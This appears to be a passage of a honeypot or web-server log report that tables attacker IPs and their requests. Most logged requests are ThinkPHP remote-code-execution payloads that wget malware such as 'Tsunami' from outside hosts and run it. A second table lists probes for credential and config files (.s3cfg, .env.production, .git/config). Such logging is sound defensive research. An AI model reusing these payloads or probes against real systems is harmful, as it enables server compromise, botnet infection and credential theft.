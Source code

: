 | 87.107.80.243   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1 |
| 90.214.52.113   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 162.221.50.82   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 207.188.188.206 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 58.96.82.116    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 79.116.24.116   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 90.248.112.248  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 211.72.164.193  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 140.207.30.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 36.27.117.227   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 81.86.131.239   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                       |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  92 |                     5 | GET /splarm6 HTTP/1.1                                                                                                                                                         |
|  96 |                     4 | GET /check HTTP/1.1                                                                                                                                                           |
| 283 |                     2 | GET /.s3cfg HTTP/1.1                                                                                                                                                          |
| 298 |                     2 | GET /arm6.nn HTTP/1.1                                                                                                                                                         |
| 299 |                     2 | GET /m68k.nn HTTP/1.1                                                                                                                                                         |
| 341 |                     2 | GET /crm/.env.production HTTP/1.1                                                                                                                                             |
| 531 |                     1 | GET /static/.git/config HTTP/1.1                                                                                                                                              |
| 536 |                     1 | GET /IOebhLMhl1CTbFHbL95myfRX2 HTTP/1.1                                                                                                                                       |
| 537 |                     1 | GET /agSearch/SQlite/users/users/users/users/users/login HTTP/1.1                                                                                                             |
| 538 |                     1 | GET /agSearch/SQlite/users/users/users/users/login HTTP/1.1                                                                                                                   |
| 539 |                     1 | GET /agSearch/SQlite/users/users/users/login HTTP/1.1                                                                                                                         |
| 540 |                     1 | GET /agSearch/SQlite/users/users/login HTTP/1.1                                                                                                                               |